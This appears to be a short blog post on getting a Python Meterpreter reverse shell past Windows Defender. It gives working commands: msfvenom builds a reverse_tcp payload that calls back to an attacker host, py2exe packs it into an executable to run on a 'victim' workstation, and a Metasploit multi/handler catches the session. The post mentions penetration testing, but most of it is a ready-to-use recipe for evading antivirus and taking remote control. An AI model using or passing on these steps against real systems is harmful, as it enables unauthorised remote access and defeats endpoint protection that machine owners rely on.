 ```yaml
---
published: true
layout: post
categories: articles
tags:
  - python
  - rev_shell
  - meterpreter
---
```


# Summary
{:.no_toc}

* toc
{:toc}

# Introduction

So, the situation, it is possible to download a file to a machine that is being tested as part of a Pentest or other legitimate activity in Windows, and it is even possible to execute it. If we are talking about the latest, tenth version of the OS, then we will run into its Windows Defender, and the likelihood of stumbling upon an antivirus is great. In such a situation, a very convenient and expandable meterpreter will not work, what is the alternative?

## Python
{:id="python"}

Here is the answer. Using Python in conjunction with metasploit and msfvenom allows us to get a decent alternative to the classic meterpreter with most of its convenient features. However we will have to sacrifice some features, it will not be possible to use such commands as getsystem and it will not be possible to migrate to the process.


# Let's start

The general scheme is as follows: we generate the python code using msfvenom, feed it to py2exe, launch the binary on the victim machine and catch the session.
<br><br>
First, install py2exe under version 3.4, since everything above is not supported.
~~~
pip install py2exe
~~~
Or, if you like updating like me:
~~~
python -3.4 –m pip install py2exe
~~~

<br><br>

Next, create the .py code:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~

It is necessary to add "import getpass" to the code, which for some reason does not do the default msfvenom.

<br><br>


Make the .exe file:
<br>
~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


And run it on the victim's workstation preliminarily run handler:<br>
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

And we get the command shell:

![Python_shell]({{ site.baseurl }}/assets/img/posts_rus/python_shell.jpg){:class="img"}

# Conclusion
{:id="end"}

A simple and effective way to combat Windows Defender if you do not want to lose the convenient and familiar meterpreter functionality in favor of more native solutions, such as ssh or telnet.
<br><br>
